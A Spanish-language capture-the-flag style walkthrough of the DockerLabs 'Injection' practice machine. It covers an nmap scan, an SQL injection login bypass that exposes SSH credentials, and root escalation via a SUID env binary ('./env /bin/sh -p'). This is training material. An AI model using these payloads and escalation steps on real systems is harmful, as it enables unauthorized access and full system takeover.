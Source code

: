 # Máquina Injection
- Dificultad: muy fácil

# Comprobamos la conexión:
<p>Primero comprobaremos si tenemos conexión con la maquina Injection: </p>

```
ping -c 3 172.17.0.2

```
<p>Al realizar este comando enviará solo 3 paquetes ping a dirección ip designada (172.17.0.2) y luego terminará.</p>

## Escaneo con nmap
<p>Ahora haremos un escaneo de puertos con la herramienta nmap</p>

```

sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 

```
<p>Explicación de lo que estamos ejecutando en este comando:</p>


`-p-`

* Escanea **todos los 65535 puertos TCP**, no solo los comunes.


`-sS`

* Realiza un **escaneo SYN sigiloso.**


`-sC`

* Usa los **scripts por defecto** de Nmap, esto puede ayudar a obtener más información de servicios detectados (como banners, vulnerabilidades simples, etc.).


`--open`

* Muestra **solo puertos abiertos**.


`-sV`

* Detecta la **versión de los servicios** que corren en los puertos abiertos.


`--min-rate=5000`

* Fuerza una **velocidad mínima de 5000 paquetes por segundo**.


`-n`

* Desactiva la **resolución DNS**.


`-vvv`

* Modo **muy detallado** de salida (`-v` = verbose, `-vv` = más verboso, `-vvv` = máximo).


`-Pn`

* Le dice a Nmap que **no haga ping al host** antes de escanear.


`-oN <ruta>`

* Guarda la salida del escaneo en **la ruta que hayamos seleccionado ** en mi caso:  /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection.


```

Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9UrfkzVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
|   256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLhO
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
<p>Podemos observar que el puerto 22 y el 80 están abiertos</p>

<p>colocamos la dirección ip 172.17.0.2 en el navegador, nos pidira que ingresemos el usuarios y la contraseña:</p>

imagen


<p>Probamos un ataque de inyeccionSQL</p>

```
 'or 1=1-- - 

```

imagen 

<p>Obtuvimos un usuario y contraseña:</p>

```
user : dylan
contraseña: KJSDFG789FGSDF78

```

Imagen 

<p>Probamos para conectarnos por SSH:</p>

```
ssh dylan@172.17.0.2
contraseña: KJSDFG789FGSDF78

```

# Escala de Privilegios
<p>Buscamos binarios con permisos SUID.</p>

```
find / -perm -4000 -user root 2>/dev/null

```
```
dylan@c890d134d17f:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
dylan@c890d134d17f:~$ 

```

<p>Aparece el binario /usr/bin/env asi, el binario env tiene permisos SUID, tiene una escalada de privilegios.</p>

```
./env /bin/sh -p

```

<p>Al ejecutarlo nos figura este error.</p>

```
-bash: ./env: No such file or directory

```

<p>Para solucionarlo, tenemos que ejecutarlo en el directorio /usr/bin .</p>

```
dylan@c890d134d17f:/usr/bin$ ./env /bin/sh -p
# whoami
root

